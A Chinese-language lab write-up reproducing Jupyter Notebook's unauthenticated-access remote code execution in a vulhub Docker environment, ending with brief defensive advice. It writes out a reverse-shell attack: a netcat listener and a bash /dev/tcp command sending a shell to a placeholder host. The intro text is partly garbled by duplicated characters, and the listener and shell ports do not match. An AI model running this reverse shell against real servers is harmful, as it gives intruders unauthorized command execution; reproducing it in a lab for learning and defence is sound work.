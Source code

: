 ```yaml
---
title: Jupyter Notebook 未授权访问漏洞简单复现
top: false
cover: false
categories:
- 渗透测试
tags:
- 未授权访问
- 渗透测试
- Jupyter Notebook
abbrlink: 59687
date: 2020-05-25 23:12:17
keywords:
summary:
img:
password:
---
```



#### 简介及危害
Jupyter Notebook(此前被称为 IPython notebook)是一一个交互式笔记本,支支持运行行行 40 多种编
程语言言。 如果管理理员未为Jupyter Notebook配置密码,将导致未授权访问漏漏洞洞,游客可在其中创建一一
个console并执行行行任意Python代码和命令。


#### 环境介绍
```bash
# 目标
环境来源：https://github.com/vulhub/vulhub/blob/master/jupyter/notebook-rce/
ip地址： 192.168.0.100
```


#### 开始测试
1.运行测试环境：
```bash
docker-compose up -d
```

2.访问目标地址 http://192.168.0.100:8888

3.New > Terminal 创建控制台：可以直接执行任意命令
![](http://image.xpshuai.cn/smurf%E6%94%BB%E5%87%BB.png)

4.后面就直接执行任意命令，比如反弹shell等
```bash
# 本机监听
nc -lvp 5555

# 目标执行
bash -i >& /dev/tcp/x.x.x.x/8080 0>&1
```


#### 防御手段
- 开启身份验证, 防止止未经授权用用户访问
- 访问控制策略略, 限制IP访问, 绑定固定IP
